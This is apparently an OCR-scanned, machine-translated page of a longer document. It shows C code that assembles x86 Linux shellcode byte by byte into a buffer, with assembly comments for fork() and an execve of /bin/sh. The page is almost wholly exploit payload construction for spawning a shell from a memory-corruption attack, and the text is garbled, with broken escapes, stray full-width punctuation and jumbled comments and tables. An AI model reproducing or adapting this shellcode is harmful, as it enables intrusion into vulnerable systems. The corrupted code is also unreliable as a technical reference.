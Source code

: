 // 推

CBuf\[i++\]=\'\\xFC\';

//cld

CBuf\[i++\]=\'\\x31\';CBuf\[i++\]=\'\\xC0\';

CBuf\[i++\]=\'\\x66\';CBuf\[i++\]=\'\\xB8\';

SBuf=(unsigned short\*)&CBuf\[i\];\*SBuf=AddThis;i=i+2;

CBuf\[i++\]=\'\\x29\';CBuf\[i++\]=\'\\x45\';CBuf\[i++\]=\'\\x08\'; //subl %eax,0x8(%ebp)

CBuf\[i++\]=\'\\x31\';CBuf\[i++\]=\'\\xC0\';

CBuf \[i ++\] = \'\\ xBF\'; // movl \$BufferAddress + \$NullOffset,%edi

LBuf=(unsigned long\*)&CBuf\[i\];\*LBuf=BufferAddress+NullOffset;i=i+4;

CBuf \[i ++\] = \'\\xAB\';

//xorl %eax,%eax

//movw \$AddThis,%ax

//xorl %eax,%eax

// stosl%eax,%es:(%edi)

CBuf\[i++\]=\'\\xBF\'; //movl \$BufferAddress+\$BinSh00Offset,%edi

LBuf=(unsigned long\*)&CBuf\[i\];\*LBuf=BufferAddress+BinSh00Offset;i=i+4;

CBuf \[i ++\] = \'\\xAA\'; // stosb%al,%es: (%edi)

CBuf\[i++\]=\'\\xB0\'；CBuf\[i++\]=\'\\x02\'； //movb \$0x2,%al

23/26

Machine Translated by Google

+---------------------------------------------------------------------------------+-------------------------------------------------+
| CBuf\[i++\]=\'\\xCD\';CBuf\[i++\]=\'\\x80\';                                    | //int \$0x80 (fork())                           |
+---------------------------------------------------------------------------------+-------------------------------------------------+
| CBuf\[i++\]=\'\\x31\';CBuf\[i++\]=\'\\xD2\';                                    | //xorl %edx,%edx                                |
+---------------------------------------------------------------------------------+-------------------------------------------------+
| CBuf\[i++\]=\'\\x39\';CBuf\[i++\]=\'\\xD0\';                                    | > //cmpl %edx,%eax //jnz +\$0x10 (‑> LFATHER)   |
|                                                                                 |                                                 |
| CBuf\[i++\]=\'\\x75\';CBuf\[i++\]=\'\\x10\';                                    |                                                 |
+---------------------------------------------------------------------------------+-------------------------------------------------+
| CBuf\[i++\]=\'\\xB0\';CBuf\[i++\]=\'\\x0B\'; //movb \$0xB,%al                   |                                                 |
|                                                                                 |                                                 |
| CBuf\[i++\]=\'\\xBB\'; //movl \$BufferAddress+\$BinShOffset,%ebx                |                                                 |
+---------------------------------------------------------------------------------+-------------------------------------------------+
| LBuf=(unsigned long\*)&CBuf\[i\];\*LBuf=BufferAddress+BinShOffset;i=i+4;        |                                                 |
+---------------------------------------------------------------------------------+-------------------------------------------------+
| CBuf\[i++\]=\'\\xB9\'; //movl \$BufferAddress+\$BinShAddressOffset,%ecx         |                                                 |
+---------------------------------------------------------------------------------+-------------------------------------------------+